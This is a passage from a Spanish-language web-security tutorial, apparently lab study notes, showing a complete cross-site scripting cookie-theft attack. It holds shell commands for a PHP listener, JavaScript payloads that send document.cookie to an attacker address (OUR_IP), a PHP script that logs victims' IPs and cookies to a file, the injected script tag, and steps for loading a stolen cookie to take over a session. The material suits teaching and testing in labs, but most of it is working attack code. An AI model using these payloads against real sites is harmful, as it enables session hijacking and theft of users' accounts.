 ```python
[!bash!]$ mkdir /tmp/tmpserver
[!bash!]$ cd /tmp/tmpserver
[!bash!]$ nano index.php #at this step we wrote our index.php file
[!bash!]$ nano script.js #at this step we wrote our script.js file
[!bash!]$ sudo php -S 0.0.0.0:8080
```

*script.js:*
```javascript
new Image().src='http://OUR_IP:8080/index.php?c='+document.cookie
```
Contendrá el payload ,en este caso, agrega una imagen a la página, que puede no parecer muy maliciosa. Hay otra forma que es `document.location='http://OUR_IP/index.php?c='+document.cookie;`, esta  navega a nuestra página PHP de captura de cookies y es mas sospechosa.

*index.php:*
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
Si hubiera muchas cookies, es posible que no sepamos qué valor de cookie pertenece a qué encabezado de cookie. Por lo tanto, este script PHP divide cada cookie en una nueva línea y las escribe en archivo. En este caso, incluso si varias víctimas activan el exploit XSS, obtendremos todas sus cookies ordenadas en un archivo llamado `cookies.txt`.

Por último insertamos en el campo vulnerable el payload para que el back-end haga la llamada a nuestro servidor:

```javascript
"><script src=http://OUR_IP:8080/script.js></script>
```

Una vez obtenida la cookie vamos a entrar en la opciones de desarrollo del navegador y modificar la cookie para iniciar sesión con la cookie secuestrada:
![[xss_5.png]]<a><img src="/img/xss_5.jpg"></a>
`Storage`en la barra de Herramientas para desarrolladores. Luego hacer clic en el `+`botón de la esquina superior derecha y agregar nuestra cookie, donde  `Name` es `cookie` y `Value` es la nuestra cookie robada , y refrescar la página.